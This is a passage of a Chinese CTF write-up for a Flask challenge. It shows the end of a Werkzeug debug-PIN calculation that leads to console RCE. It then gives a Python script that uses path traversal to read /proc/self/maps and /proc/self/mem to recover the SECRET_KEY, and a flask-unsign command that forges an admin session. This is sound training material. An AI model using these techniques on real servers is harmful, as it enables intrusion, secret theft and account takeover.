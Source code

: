 ```python

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
最后进入控制台直接rce
![](https://img-blog.csdnimg.cn/f57a7c8ade494a918f8b7d0da317d6c8.png)

可参考：
[关于ctf中flask算pin总结](https://blog.csdn.net/qq_35782055/article/details/129126825)
[flask的pin码攻击——新版本下pin码的生成方式](https://blog.csdn.net/qq_42303523/article/details/124232532)

## Cute Cirno (Revenge)
其实算pin码为非预期，预期解是伪造session然后进行模板注入，但是 SECRET_KEY 为随机数，那么就需要从内存中读取key了

读取脚本如下：
```python
import requests, re

url = "http://neepusec.fun:28359"

maps_url = f"{url}/r3ADF11e?filename=../../../../../../../proc/self/maps"
maps_reg = "([a-z0-9]{12}-[a-z0-9]{12}) rw.*?00000000 00:00 0"
maps = re.findall(maps_reg, requests.get(maps_url).text)
# print(maps)

for m in maps:
    start, end = m.split("-")[0], m.split("-")[1]
    start, end = str(int(start, 16)), str(int(end, 16))
    read_url = f"{url}/r3ADF11e?filename=../../../../../proc/self/mem&start={start}&end={end}"
    s = requests.get(read_url).content
    rt = re.findall(b"[a-z0-9A-Z-+-/]{40}\*NeepuCTF\*", s)
    if rt:
        print(rt)
```
![](https://img-blog.csdnimg.cn/49778b92e4b94ec6890d8851842f7f20.png)

得到key后，可以使用flask-unsign伪造session
`flask-unsign --sign --cookie "{'admin':1}" --secret "ALB2HGeH1DeYYcRo6Thy5KpzYT8yM2EGbGcCKd4Q*NeepuCTF*"`
![](https://img-blog.csdnimg.cn/65e140c303cb4e8b93f26474f3c599b7.png)
